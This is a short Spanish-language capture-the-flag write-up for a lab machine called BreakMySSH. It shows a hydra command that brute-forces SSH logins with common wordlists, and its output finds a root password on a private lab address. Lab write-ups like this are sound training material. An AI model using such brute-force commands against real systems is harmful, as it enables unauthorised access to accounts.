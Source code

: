 # BreakMySSH

Con un `nmap` vemos que solo está abierto el puerto de SSH. Por el nombre de la máquina me puedo imaginar que hay que hacerle fuerza bruta.

```bash
hydra -L /usr/share/wordlists/SecLists-2025.2/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

![](Pasted%20image%2020250724032351.png)